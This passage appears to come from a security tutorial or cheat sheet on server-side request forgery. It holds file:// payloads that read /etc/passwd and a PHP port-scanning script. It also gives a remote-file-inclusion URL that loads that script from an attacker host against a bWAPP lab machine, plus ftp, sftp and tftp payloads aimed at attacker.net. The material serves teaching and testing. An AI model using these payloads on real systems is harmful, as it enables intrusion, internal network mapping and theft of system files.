 ![enter image description here](https://raw.githubusercontent.com/ShubhamDubeyy/Route-To-Toor/gh-pages/etc.png)

#### **Internal files via URL scheme**

Attacking the URL scheme allows an attacker to fetch files from a server and attack internal services.  
  
Some common exploits for accessing internal files include:  
  
`https://target.com/page?url=file://etc/passwd  
https://target.com/page?url=file:///etc/passwd  
https://target.com/page?url=file://\/\/etc/passwd  
https://target.com/page?url=file://path/to/file`

#### **Internal services via URL scheme**

First find the open port on system using Bruteforce (https://cobalt.io/blog/from-ssrf-to-port-scanner). Then we can use a URL scheme to connect to certain services.

Following is the remote malicious code that make this attack port scanning

```<?php
if (isset($_GET["ip"])) {
    $ports = array(21, 22, 23, 25, 53, 80, 443, 3306);
    foreach ($ports as $port) {
        $service = getservbyport($port, "tcp");
        if($pf = @fsockopen($_GET["ip"], $port, $err, $err_string, 1)) {
            echo "Port $port($service)" . ": <span style='color:green'>Open</span><br>";
            fclose($pf);
        }
        else {
            echo "Port $port($service)" . ": <span style='color:red'>Inaccessible</span><br>";
        }

    }
}

?>
```

Let’s attack port scans on the internal network using RFI

http://192.168.28.129/bWAPP/rlfi.php?language=http://192.168.28.1:8888/ssrf_port_scan.txt&ip=192.168.28.129&action=go

192.168.28.129 is a is victim address

Sample output:

![](https://hydrasky.com/wp-content/uploads/2016/12/ssrf6.png)
 Or we can use Burpsuite to breuteforce the vulnerability. 
  ![enter image description here](https://raw.githubusercontent.com/ShubhamDubeyy/Route-To-Toor/gh-pages/SSRF8.png)
For file transfer protocols:  

`https://target.com/page?url=ftp://attacker.net:11211/  
https://target.com/page?url=sftp://attacker.net:11111/  
https://target.com/page?url=tftp://attacker.net:123456/TESTUDP`
